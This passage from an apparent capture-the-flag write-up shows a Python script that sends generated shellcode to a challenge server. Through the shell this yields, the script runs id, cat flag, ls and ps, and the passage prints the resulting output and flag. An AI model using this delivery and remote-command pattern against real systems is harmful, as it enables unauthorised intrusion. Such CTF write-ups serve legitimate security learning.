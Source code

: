 ```python
	s.settimeout(10)
	s.connect(('3.81.191.176',1222))
	with open('gen_shell','rb') as f:
		data = f.read(1024)
		while len(data) > 0:
			s.send(data)
			data = f.read(1024)
		f.close()
	print(s.recv(50))

	time.sleep(1)
	s.send(b'id\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'cat flag\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'ls -al\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'ps aux\n')
	print(s.recv(10240).decode('ascii'))

if __name__ == '__main__':

	#random_shellcode()
	#real_shellcode() # ./shellcode.py > gen_shell.asm && nasm gen_shell.asm

	connect_to_server()

```

All of this gives us the flag:

```
$ ./shellcode.py 
b'Looks like valid ASCII art to me!!\n'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

AOTW{Every artist was 1st an amateur}

total 20
drwxr-xr-x 1 root root 4096 Dec 21 21:54 .
drwxr-xr-x 1 root root 4096 Dec 22 12:00 ..
-rwxr-xr-x 1 root root 5464 Dec 21 11:49 chal
-rw-r--r-- 1 1000 1000   38 Dec 21 21:34 flag

USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   4628   852 ?        Ss   Dec22   0:00 /bin/sh -c /usr/sbin/inetd -d
root         6  0.0  0.0  31872  2948 ?        S    Dec22   0:00 /usr/sbin/inetd -d
nobody    5663  0.0  0.0   8804   864 ?        Ss   22:34   0:00 /usr/bin/timeout 60 /opt/chal
nobody    5664  3.0  0.0   4628   772 ?        S    22:34   0:00 /bin/sh -c /bin/sh
nobody    5665  0.0  0.0   4628   828 ?        S    22:34   0:00 /bin/sh
nobody    5669  0.0  0.0  34400  2796 ?        R    22:34   0:00 ps aux

```



